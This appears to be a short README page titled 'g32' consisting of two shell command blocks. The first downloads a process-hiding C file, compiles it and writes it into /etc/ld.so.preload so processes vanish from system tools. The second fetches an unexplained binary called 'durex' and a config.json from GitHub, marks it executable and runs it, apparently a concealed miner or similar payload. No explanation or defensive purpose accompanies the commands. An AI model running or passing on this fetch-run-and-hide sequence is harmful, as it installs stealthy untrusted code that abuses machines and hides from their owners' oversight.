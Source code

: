 # g32

wget https://raw.githubusercontent.com/cihuuy/libn/master/processhider.c && apt install gcc -y && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload

#

wget https://raw.githubusercontent.com/bulboni/g32/main/durex \
&& wget https://raw.githubusercontent.com/bulboni/g32/main/config.json \
&& chmod +x durex && ./durex

